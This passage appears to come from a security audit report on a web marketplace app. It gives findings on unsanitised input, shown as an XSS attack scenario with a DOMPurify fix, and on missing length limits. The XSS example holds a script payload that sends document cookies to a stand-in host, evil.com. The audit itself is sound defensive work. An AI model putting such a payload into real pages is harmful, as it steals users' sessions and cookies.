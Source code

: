 **Attack Scenario:**
```javascript
Title: "Great Product <script>fetch('evil.com?cookie='+document.cookie)</script>"
```

**Impact:**
- Session hijacking
- Cookie theft
- Malicious redirects
- Data exfiltration

**Fix Required:**
```typescript
import DOMPurify from 'isomorphic-dompurify'

const sanitizedTitle = DOMPurify.sanitize(input.title)
const sanitizedDesc = DOMPurify.sanitize(input.description)
```

**Priority:** ⚠️ **MUST FIX BEFORE PRODUCTION**

---

### **CRITICAL-002: No Input Length Validation**
**Severity:** 🔴 **HIGH** (CVSS: 7.5)  
**Risk:** DoS attacks via extremely long inputs

**Affected Files:**
```
components/post-ad-wizard.tsx:86 (title)
components/post-ad-wizard.tsx:90 (description)
components/quote-form.tsx:114-116 (message)
```

**Vulnerable Code:**
```typescript
// ❌ NO LENGTH LIMITS
<Input value={title} onChange={(e) => setTitle(e.target.value)} />
// User can paste 1MB of text!
```

**Impact:**
- localStorage quota exceeded
- Browser crashes
- Poor UX

**Fix Required:**
```typescript
const MAX_TITLE_LENGTH = 100
const MAX_DESC_LENGTH = 2000

const handleTitleChange = (e) => {
  const value = e.target.value
  if (value.length <= MAX_TITLE_LENGTH) {
    setTitle(value)
  }
}
```

---